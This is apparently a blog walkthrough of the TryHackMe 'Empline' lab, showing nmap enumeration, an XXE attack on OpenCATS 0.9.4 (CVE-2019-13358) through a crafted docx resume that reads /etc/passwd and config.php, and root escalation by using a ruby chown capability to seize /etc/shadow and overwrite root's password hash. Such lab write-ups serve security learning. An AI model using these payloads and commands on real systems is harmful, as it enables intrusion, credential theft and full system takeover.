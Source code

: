 ```yaml
---
title: Try Hack Me Empline
date: 2021-09-19T13:14:49+05:30
lastmod: 2021-09-19T13:14:49+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/thm.gif # for tryhackMe
simg: /img/blog.png

categories:
  - TryHackMe
tags:
  - tryhackme
  - rooms
  - thm

draft: false
description: TryHackMe Room {Empline} solved by Animesh Roy. this is a walkthough. read more...

---
```


## OverView

|||
|---|---|
| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|Empline|![logo](https://tryhackme-images.s3.amazonaws.com/room-icons/189112ffef41c0fa813d7d5b394a58b5.png)|
| <b> Empline [Subscription Required] </b>| [Empline](https://tryhackme.com/room/empline)|

Are you good enough to apply for this job?

## Enumeration

### Nmap

```bash
sudo nmap -sC -sV -oN nmap/init 10.10.127.35
[sudo] password for anir0y: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-19 13:18 IST
Nmap scan report for 10.10.127.35
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Empline
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 86
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, IgnoreSigpipes, Speaks41ProtocolOld, SupportsTransactions, SupportsCompression, FoundRows, InteractiveClient, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, ODBCClient, LongPassword, ConnectWithDatabase, SupportsLoadDataLocal, LongColumnFlag, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommi
|   Salt: N|F*;+c3re'0ZUy#?Sd'|
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.67 seconds
```

|Port|service|remarks
|---|---|---|
|22|SSH|will check this one later|
|80|HTTP| web-service|
|3306|MySQL| kinda odd, usually MySQL port/services aren't exposed on external IP|

### HTTP Enumeration

#### port:80

![img](https://i.imgur.com/5JIXGQa.png)

nothing important. gobuster returns no `intresting` results.

![img](https://i.imgur.com/5M4xfrp.png)

one new `sub-domain` linked with `Employment` menu. let's add that to our local `/etc/hosts` file.

#### job.empline.thm

![img](https://i.imgur.com/GHRimOl.png)

* CMS is `opencats`
* Version 0.9.4 Countach
* A vulnerabilty `CVE-2019-13358` can be exploited.
* ref to original [blog post](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)

## Payload

### XXE on job.empline.thm

* generate the document file:

     ```python
     #!/usr/bin/env python3
     from docx import Document
     document = Document()
     paragraph = document.add_paragraph('anir0y')
     document.save('payload.docx')
     ```

* unzip the document file and add the payload to read `/etc/passwd` file.

     ```xml
     <!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
     ```

* For the second modification, we need to find and change my name(`anir0y`) which was the only content that was in the resume. We will swap out my name with this:

     `&test;`

* goto the URL: `job.empline.thm/careers/` and apply for the job with our `payload.docx` as resume.
* it worked!!!
  
     ![img](https://i.imgur.com/w4mSOfH.png)

* now let's try reading the `config.php` on root dir.

     ```xml
     <?xml version='1.0' encoding='UTF-8' standalone='yes'?>
     <!DOCTYPE test [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>
     <w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:mo="http://schemas.microsoft.com/office/mac/office/2008/main" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:mv="urn:schemas-microsoft-com:mac:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 wp14"><w:body><w:p><w:r><w:t>&test;</w:t></w:r></w:p><w:sectPr w:rsidR="00FC693F" w:rsidRPr="0006063C" w:rsidSect="00034616"><w:pgSz w:w="12240" w:h="15840"/><w:pgMar w:top="1440" w:right="1800" w:bottom="1440" w:left="1800" w:header="720" w:footer="720" w:gutter="0"/><w:cols w:space="720"/><w:docGrid w:linePitch="360"/></w:sectPr></w:body></w:document>
     ```

* save it to the `payload.docx`

     ```bash
     ┌──(anir0y㉿kali)-[~/…/thm/room/empline/xxe]
     └─$ zip payload.docx word/document.xml 
     updating: word/document.xml (deflated 65%)
     ```

* reupload the file.
  
  ![img](https://i.imgur.com/D69DfgA.png)

* save the encoded output to a file and decode it with base64 decoder. you can find the  `DB creds`. as we already know `mysql` is listening on IP. let's try connecting with it.

> PS: I did try the creds for SSH; didn't worked!! :(

### MySQL

* login to remote db
  
  ![img](https://i.imgur.com/38Ccqil.png)

* found user creds:
  
  ![img](https://i.imgur.com/CePlnsF.png)

* let's crack the hash.
  
     ![img](https://i.imgur.com/kM5HkTC.png)

only password I was able to crack with `rockyou.txt` is for `george`

## User.txt

* now we have creds for `george`; SSH into the machine with his creds.
* the creds worked!!! 
* now we can read `user.txt` file.
  
  ![img](https://i.imgur.com/buJSaNJ.png)

---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

## root.txt

* let's run `linpeas`
* intresting finding for `Capabilities`
  
  `/usr/local/bin/ruby = cap_chown+ep`

* take ownership of `/etc/shadow` file
  
  `ruby -e 'File.chown(1002,1002,"/etc/shadow")'`

* change root password

     ```python
     python -c "import crypt, getpass, pwd; \
          print crypt.crypt('password', '\$6\$SALTsalt\$')"
     ```

     ```bash
     edit /etc/shadow with new generated hash
     # before
     root:$6$1cvOcl49$/czKHKvBaz450J3YnIvkqexT.StvdgUWzPr5X1Aitt/kxgF/i78wziX3zJQ0y8Kg9y749Qjr5EFiHmTdPsIJH/:18828:0:99999:7:::
     #now
     root:$6$SALTsalt$UiZikbV3VeeBPsg8./Q5DAfq9aj7CVZMDU6ffBiBLgUEpxv7LMXKbcZ9JSZnYDrZQftdG319XkbLVMvWcF/Vr/:18828:0:99999:7:::
     ```

* finally we can read the `root.txt` flag.

     ![img](https://i.imgur.com/7uyiAp5.png)

---
<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
